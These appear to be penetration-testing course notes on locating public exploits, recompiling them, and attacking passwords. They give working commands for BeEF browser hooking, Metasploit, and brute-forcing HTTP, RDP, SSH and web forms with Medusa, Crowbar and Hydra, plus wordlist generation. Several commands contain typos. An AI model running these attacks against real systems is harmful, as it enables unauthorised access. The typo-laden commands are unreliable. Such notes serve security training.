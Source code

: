 ##### Working With Public Exploits
Online exploit resources:
	exploit-db.com 
	securityfocus.com
	packetstormsecurity.com
	google search operators
	"MIcrosoft Edge site:exploit-db.com"
	"MIcrosoft Edge site:exploit-db.com inurl:exploits"
	"MIcrosoft Edge site:exploit-db.com inurl:exploits intext:remote"
	"MIcrosoft Edge site:exploit-db.com inurl:exploits intext:remote intitle:browser"
Offline exploit resources (within kali):
	SearchSploit (/usr/share/exploitdb)
	As an example: searchsploit remote smb microsoft windows
	Nmap NSE scripts:
	 cd /urs/share/nmap/scripts
	grep Exploits *.nse
	Browser Exploitation Framework (BeEF):
		Launch the framework: sudo beef-xss
		Login via Web browser at: 127.0.0.1:3000/ui/panel
		Next step is to hook the victim"s browser
	Metasploit framework:
		To start the console: sudo msfconsole -q
		To list all exploits related to XXX vulnerability: search -h 

##### Fixing Existing Exploits
Fixing memory corruption exploits:
	Change parameters
	Change payload whenever possible (do not trust original payloads)
	Eventually cross-compile with mingw-w64: i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
	Launch Windows exploits from kali with wine: wine syncbreeze_exploit.exe
Fixing Web application exploits:	
	Usually easier to re-purpose than native exploits (no need for compilation for example)

##### Password Attacks
Standard wordlists:
	/usr/shared/wordlists
Custom wordlists:
	cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
Password profiling and password enforcement policies with John the Ripper:
	nano /etc/john/john.conf
	john --wordlist=megacorp-cewl.tx --rules --stdout > mutated.txt
Bruteforce password attacks:
	Bruteforce attacks can be very time consuming, very loud and not realistically viable, but they may make sense in case we know that the password for a certain user or organization follows a very specific pattern and enforcement policies. In this case we can generate our own ad-hoc bruteforce wordlist with crunch
	crunch wordlist generator: crunch 8 8 -t ,@@^^%%%
Common Network Service Attack Methods:
	HTTP htaccess attack with Medusa:
		sudo gunzip /usr/share/wordlists/rockyou.txt.gz
		medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rokyou.txt -M htttp -m DIR:/admin
	Remote desktop protocol attack with Crowbar, a network authentication cracking tool:
		Crowbar is one of the few tools to perform password attacks against the RDP service on modern versions of Windows
		sudo apt-get install crowar 
		crowbar -b rdp -s 10.11.0.22/32 -u admin -C password-file.txt -n 1
	SSH attack with THC-Hydra:
		It can be used best to attach SSH and HTTP
		hydra -l kali -P password-file.txt ssh://127.0.0.1
	HTTP POST attack with THC-Hydra:
		hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^ : INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou,txt -vV -f
Leveraging password hashes:
	Hash type identification: hashid blablabla